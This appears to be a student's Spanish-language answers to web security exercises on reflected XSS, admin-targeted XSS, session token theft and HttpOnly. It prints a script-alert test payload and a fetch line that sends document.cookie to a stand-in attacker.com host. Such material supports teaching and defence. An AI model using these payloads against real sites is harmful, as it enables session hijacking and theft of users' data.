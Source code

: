 7. Un campo de búsqueda refleja el `input` del usuario en la página sin escape. ¿Cómo podrías probar si es vulnerable a XSS reflejado? Describe el paso a paso.
<p style="text-align: justify; color: blue;">
Primero identificamos el campo vulnerable escribiendo un texto cualquiera "Cova" y lo buscamos en el HTML de la página, si aparece en texto plano significa que la página es vulnerable. Luego inyectamos un script sencillo,

```
  <script>alert((document.domain)</script>
```
<p style="text-align: justify; color: blue;">
Si muestra una ventana emergente con el dominio de la página, es que es vulnerable y podemos inyectar cualquier script.
<br>

8. ¿Por qué los ataques XSS son particularmente peligrosos cuando el usuario atacado es un administrador o tiene permisos elevados? Da un ejemplo de escenario realista.
<p style="text-align: justify; color: blue;">
Porque podría realizar acciones en nombre de dicho usuario con sus permisos correspondientes, accediendo a datos sensibles y comprometiéndolos. También podría tener acceso a las configuraciones del sistema, poniendo en riesgo la seguridad pudiendo incluso llegar a tomar el control total del mismo. <br>
<b>Ejemplo:</b> Un atacante pone un comentario en un sistema que no verifica las entradas de estos campos de tal forma que si un administrador accede al mismo y lo lee se ejecuta el payload que roba sus cookies de sesión permitiéndole el acceso al sistema. Esto que es enviado al atacante y es usado para autenticarse en el sistema y realizar todas las acciones que quiera con los permisos de dicho administrador: modificar configuraciones, acceder a la información de los usuarios, eliminarlos o robar la información que sea. Además como administrador, el atacante puede borrar las evidencias del delito, eliminando el comentario que incluía el payload y todo el registro de las acciones realizadas.

<br>

9. Explica cómo un ataque XSS puede utilizarse para robar tokens de sesión, y por qué los tokens `HttpOnly` ayudan a prevenirlo.
<p style="text-align: justify; color: blue;">
Si ejecutamos un script que robe el token de sesión como este: 

```
fetch('https://attacker.com/steal?cookie=' + document.cookie);
```
<p style="text-align: justify; color: blue;">
El atacante obtendría la cookie que incluye el identificador de sesión. Con esta información el atacante podría autenticarse suplantando la identidad robada.<br>
HttpOnly es una medida de seguridad que impide que JavaScript pueda acceder a la información de la cookie desde document.cookie. La información de sesión se envía al servidor en cada petición pero no puede ser leída por el intérprete web. De esta forma impedimos que un atacante pueda conseguirla mediante este tipo de ataque. <br> Por tanto HttpOnly no evita los ataques XSS ni el robo de las cookies pero sí ayuda a prevenirlo. Lo ideal es combinar las mitigaciones vistas anteriormente junto a esta para minimizar los riesgos de ataque.

<br>

10. ¿Puede un ataque XSS llevar a la ejecución remota de comandos en el servidor (RCE)? Justifica tu respuesta con un análisis técnico.
<p style="text-align: justify; color: blue;">
En principio no, al menos no de forma directa ya que el ataque XSS se realiza normalmente desde un cliente y tendrían que haber otras vulnerabilidades añadidas que permitieran a un cliente ejecutar código en un servidor. Si dicho ataque afecta a un administrador del sistema sí que podría ejecutar comandos en el servidor ya que, como hemos visto antes, si roba sus cookies podría autenticarse como usuario privilegiado y realizar las acciones que tenga permitidas en el sistema.
